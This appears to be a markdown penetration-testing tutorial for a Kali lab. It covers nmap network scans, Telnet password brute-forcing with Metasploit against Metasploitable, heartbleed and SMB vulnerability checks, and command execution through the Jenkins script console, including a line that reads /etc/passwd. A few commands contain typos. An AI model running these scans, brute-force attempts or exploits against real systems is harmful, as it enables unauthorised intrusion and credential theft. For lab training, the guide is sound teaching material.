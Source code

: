 Finding Low Hanging Fruit with Kali
===================================
How to Get Kali
---------------
Kali is available for download at http://kali.org/downloads

Setup Kali for First Use
------------------------
Run `apt-get update` to get the latest package lists.

Run `apt-get upgrade` to install the latest packages.

Some packages may be held back, install those packages using `apt-get dist-upgrade` or `apt-get install <package_name>`.

Use `apt-get autoremove` to remove packages that are no longer needed.

Setup Metasploit for First Use
------------------------------
Start the Postgres and Metasploit services

    service postgresql start
    service metasploit start

To have the Postgres and Metasploit services start up at boot time.

    update-rc.d postgresql enable
    update-rc.d metasploit enable

Unnecessary Services
--------------------
TCP scan against 10.1.1.4-254

    nmap 10.1.1.4-254

UDP scan of top ten ports against 10.1.1.4-254

    nmap -sU --top-ports 10.1.1.4-254

Aggressive scan against 10.1.14-254 and save to an XML file.

    nmap -A -oX local_network.xml 10.1.1.4-254

Import the scan results into Metasploit

    msfconsole
    db_import local_network.xml
    hosts
    services
    services -p 23

Finding Weak Passwords
----------------------
Look at the wordlists in the wordlists folder

    cd /usr/share/wordlists
    ls
    sudo gunzip rockyou.txt.gz

Brute-force the Telnet service on Metasploitable

    use auxiliary/scanner/telnet/telnet_login
    show options
    set USERNAME msfadmin
    set PASS_FILE /usr/share wordlists/fasttrack.txt
    set USER_AS_PASS true
    set BLANK_PASSWORDS true
    services -p 23 -R
    run

Exploitable Vulnerabilities
---------------------------
Find heartbleed vulnerabilities

    nmap -p 443 --script=ssl-heartbleed 10.1.1.4-254

Find SMB vulnerabilities

    nmap --script=smb-check-vulns 10.1.1.4-254  # Unsafe warning
    nmap --script=smb-check-vulns --script-args=unsafe=1 10.1.1.4-254

Web-Based Admin Interfaces
--------------------------
Find the Jenkins interface

    nmap -A -p 80,443,5800,8000,8080 10.1.1.4-254

Once we find Jenkins go to the admin interface and look for the script console.

    proc = [‘cat’, ‘/etc/passwd’].execute()
    println proc.in.txt

Metasploit also has a module for this.

    use exploit/multi/http/jenkins_script_console
    show options
    set RHOST 10.1.1.7
    set RPORT 8080
    set TARGETURI /
    show targets
    set TARGET 1
    exploit

Metasploit has a lot of exploits for web interfaces

    search /http/
